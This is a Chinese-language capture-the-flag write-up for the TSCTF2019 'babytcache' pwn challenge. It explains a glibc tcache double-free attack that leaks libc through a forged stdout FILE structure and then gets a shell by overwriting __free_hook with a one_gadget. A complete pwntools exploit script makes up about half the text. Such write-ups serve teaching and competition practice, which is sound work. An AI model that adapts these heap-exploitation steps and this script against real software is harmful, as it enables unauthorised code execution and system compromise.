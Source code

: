 ```yaml
---
title: babytcache
categories:
- TSCTF2019
---
```

# tsctf2019->babytcache 

## 程序逻辑

这道题是pwnable里tcache_tear改编来的，程序只有Alloc和Delete功能，没有泄露地址的函数，这里要考虑用文件结构体来泄露，具体可以参考hitcon的babytcache和bctf的three和前两天信安竞赛的bms

![init](./3.jpg)

![main](./1.jpg)

![Alloc](./2.jpg)

## 漏洞利用

### 泄露地址

Init里用mmap分配了一块内存，查一下prot是可读可写，mmap分配成功即返回target_addr，因此第一次read调用的是read(0,0xabcda000,0x200)，根据原题的思路，我们可以在这个地址范围内构造一个fake_chunk，其size为0x100，在它的next_chunk处修改其size为0x21，使得prev_in_use为1，通过tcache dup可以Malloc到这个地址，再free(0xabcda010)，由于之前已经两次Free这个地址了,count对应位置被置为0，free的时候直接减1变成0xff>7，意味着tcache bin被填满，不再放入Tcache而是small bin，成为unsorted bin。

![leak](./4.jpg)

使用tcache dup，从unsorted bin中分配0x90再double free，这时候unsored bin被切割成两部分，由于剩下的部分size依然满足unsorted bin要求，新的unsorted bin为0xabcda0a0。其fd和bk写入了main_arena+88，double free的结果是0x90被放入了tcache entry。

分配一个chunk，使得tcahe的next被改成0xabcda0b0，tcache_entry链上增加了0xabcda0b0。

Alloc(0x40)分配的是Unsorted bin，其fd被覆写了2个低字节，注意此时这个chunk也在tcache_entry里，相当于next指针被修改了。

All(0x90)分配的chunk为0xabcda000，Alloc(0x90)再分配的chunk为0xabcda0a0，再Alloc(0x90)分配的就是之前爆破的fake_addr，这里修改为p64(0xfbad1800)+p64(0)*3+'\x00'，造成泄露，调试过程中查看这个地址与libc_base的距离，记为offset，这个偏移是固定的，之后得到的地址减去offset即可得到libc_base
```py
Alloc(0x90,p64(0xabcda0b0))
Alloc(0x40,'\x60\x67')#0xabcda0b0 => chunk extend with 0xabcda100 overwrite last 2 bytes
Alloc(0x90,"c\n")#chunk addr => 0xabcda000
Alloc(0x90,"d\n")#chunk addr => 0xabcda0a0
payload = p64(0xfbad1800)+p64(0)*3+'\x00'
Alloc(0x90,payload)
```

### get shell

使用one_gadget得到Libc的gadgets，覆写free_hook为one_gadget的地址，分配一个chunk，其内容为'/bin/sh\x00'。Free(chunk_addr)即可调用system('/bin/sh\x00')

## exp.py

```py
#coding=utf-8
from pwn import *
debug = 0
context.update(arch='amd64',os='linux',log_level="info")
context.terminal = ['tmux','split','-h']
elf = ELF('./main')
if debug:
    p = process('./main')
    #p = process(["./main"],env={"LD_PRELOAD":'./libc-2.27.so'})
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('10.112.100.47',2333)
    libc = ELF('./libc-2.27.so')

def Alloc(size,data):
    p.recvuntil('Please input your choice:')
    p.sendline('1')
    p.recvuntil('input size:')
    p.sendline(str(size))
    p.recvuntil('input data:')
    p.send(data)

def Delete():
    p.recvuntil('Please input your choice:')
    p.sendline('2')

def Init():
    p.recvuntil('input your secret:')
    payload = p64(0) + p64(0x101) + 'a'*0xf0
    #next chunk prev_in_use must be *1
    payload += p64(0x0) + p64(0x21) + 'b'*0x10 + p64(0x20) + p64(0x21)
    p.sendline(payload)

def exp():
    gadgets = [0x4f2c5,0x4f322,0x10a38c]
    Init()
    #malloc unsorted bin
    Alloc(0xf0,'a\n')
    Delete() 
    Delete() 
    Alloc(0xf0,p64(0xabcda010))
    Alloc(0xf0,'a\n')
    Alloc(0xf0,'b\n')
    Delete() 
    #unsorted bin => 0xabcda000
    #tcache dup to malloc unsorted bin
    #gdb.attach(p)
    Alloc(0x90,'a\n')#malloced from unsorted bin => new unsorted bin:0xabcda0a0
    #tcache 
    Delete() 
    Delete() 
    #(0xa0)   tcache_entry[8]: 0xabcda010 --> 0xabcda010 (overlap chunk with 0xabcda000(freed) )
    Alloc(0x90,p64(0xabcda0b0))
    #(0xa0)   tcache_entry[8]: 0xabcda010 --> 0xabcda0b0 (overlap chunk with 0xabcda0a0(freed) )
    Alloc(0x40,'\x60\x67')#0xabcda0b0 => overwrite last 2 bytes
    #(0xa0)   tcache_entry[8]: 0xabcda010 --> 0xabcda0b0
    Alloc(0x90,'c\n')#chunk addr => 0xabcda000
    #(0xa0)   tcache_entry[8]: 0xabcda0b0
    Alloc(0x90,'d\n')#chunk addr => 0xabcda0a0
    #(0xa0)   tcache_entry[8]: 0x7ffff7dd6760
    payload = p64(0xfbad1800)+p64(0)*3+'\x00'
    Alloc(0x90,payload)
    p.recvn(8)
    #leak libc
    leaked_addr = u64(p.recvn(8))
    log.success('leaked addr => ' + hex(leaked_addr))
    libc_base = leaked_addr - 0x3ed8b0
    log.success('libc base => ' + hex(libc_base))
    free_hook = libc_base + libc.symbols["__free_hook"]
    shell_addr = libc_base + gadgets[1]
    #get shell
    Alloc(0x50,'xmzyshypnc')
    Delete() 
    Delete() 
    Alloc(0x50,p64(free_hook))
    Alloc(0x50,'/bin/sh\x00')
    Alloc(0x50,p64(shell_addr))
    Delete()
    p.interactive()

exp()


```


